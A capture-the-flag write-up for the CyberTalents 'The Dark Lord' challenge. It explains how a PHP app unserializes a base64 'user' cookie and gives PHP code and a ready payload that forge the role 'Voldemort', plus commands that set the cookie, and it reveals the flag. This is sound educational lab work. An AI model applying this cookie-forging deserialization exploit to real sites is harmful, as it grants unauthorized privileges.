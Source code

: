 # CyberTalents The Dark Lord

#### Let's start with opening `http://52.28.216.196/darklord/`

## (1) Discovering

![Website Picture](https://github.com/Ahmedwaleed22/The-Dark-Lord/blob/master/pic1.png)

<p>As we can see it looks like that it's a normal page nothing strange in it let's check the source code</p>

![Source Code Picture](https://github.com/Ahmedwaleed22/The-Dark-Lord/blob/master/pic2.png)

<p>I found that there is a link to "source.php" let's check it</p>

![Source.php File Picture](https://github.com/Ahmedwaleed22/The-Dark-Lord/blob/master/pic3.png)

<p>As we can see it has php code with some html let's check what can we do with it</p>

<p>There is a class called user that has a private variable called "role" and it has value of "Guest", and there is a "GetInfo" method that checks if you have "Voldemort" role or not and return something according to that</p>

<p>Then we have another piece of php code checking if user have "user" cookie and if it exists it decode it and then unserializing it. and if "user" cookie not exists it create a user with the default role (Guest)</p>

## (2) Coding

<p>Now we can take the user class, edit the role to "Voldemort" then serializing and then encoding it let's try to do that with the following code</p>

```php
<?php

class User
{
    private $role = "Voldemort";

    public function GetInfo()
    {
        include("titles.php");

        if($this->role === "Voldemort")
        {
            return $Title_A;
        }
        else
        {
            return $Title_B;
        }
    }

}

$user = new User();

$solution = base64_encode(serialize($user));

echo $solution;
```

### It printed out `Tzo0OiJVc2VyIjoxOntzOjEwOiIAVXNlcgByb2xlIjtzOjk6IlZvbGRlbW9ydCI7fQ==`


## (3) Exploiting

<p>There is two ways to exploit it</p>

### (1) Using "Cookie Editor" Extention

<p>You can add new cookie named "user" and asign "Tzo0OiJVc2VyIjoxOntzOjEwOiIAVXNlcgByb2xlIjtzOjk6IlZvbGRlbW9ydCI7fQ==" to it's value.</p>

![Exploiting with "Cookie Editor"](https://github.com/Ahmedwaleed22/The-Dark-Lord/blob/master/pic4.png)

### (2) Using browser console

<p>You can easily execute the following code in the browser console</p>

#### `document.cookie = "user=Tzo0OiJVc2VyIjoxOntzOjEwOiIAVXNlcgByb2xlIjtzOjk6IlZvbGRlbW9ydCI7fQ=="`

# That's it

![Flag](https://github.com/Ahmedwaleed22/The-Dark-Lord/blob/master/pic5.png)

## Flag: FL@G{S3r!alizat!on_!s_D@ng3r0us}

